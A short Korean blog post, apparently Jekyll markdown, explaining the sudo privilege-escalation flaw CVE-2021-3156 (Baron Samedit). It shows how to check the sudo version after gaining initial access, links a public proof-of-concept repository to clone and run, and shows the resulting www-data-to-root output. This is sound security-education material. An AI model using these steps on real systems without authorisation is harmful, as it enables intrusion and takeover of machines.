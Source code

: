 ```yaml
---
layout: post
title: CVE-2021-3156 취약점 및 예시
subtitle: Baron Samedit - sudo 버전 취약점점
category: knowledge
thumbnail-img: /assets/img/avatar-icon.png
tags: [kernel, sudo, suid, baronsamedit,CVE-2021-3156]
author: Hong
---
```

sudo의 버전을 이용한 버퍼 오버플로우에 의한 권한 상승 취약점.

CVE-2021-3156은 sudo의 버전이 1.9.5p2 보다 낮을 경우 악용할 수 있다.

해당 취약점은 유명해서 또 다른 이름으로 Baron Samedit이라고도 불린다.
# sudo의 버전 확인
리눅스 시스템에 초기 진입에 성공했을 때 SUID의 리스트를 확인한다.

보통 sudo가 포함되어 있지만 보안 문제로 사용이 제한되어 있는 경우가 많다.

그렇다고 그냥 지나치지 말고 버전을 확인해본다.

```bash
$ sudo --version
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
```
위의 경우 버전이 1.8.31로 CVE-2021-3156에 해당되는 것을 알 수 있다.

# Poc를 다운로드, 실행
취약점을 이용하는 방법은 간단한데 poc소스 코드를 다운받아서 실행하면 끝이다.

https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit 여기서 깃을 클론해온다.

```bash
# 실행전
www-data@ip-172-20-3-199:/tmp/Sudo-1.8.31-Root-Exploit-main$ whoami
www-data

#실행 후
www-data@ip-172-20-3-199:/tmp/Sudo-1.8.31-Root-Exploit-main$ ./exploit 
whoami
root
```
위의 코드를 보면 실행 후 바로 root로 바뀌는 것을 알 수 있다.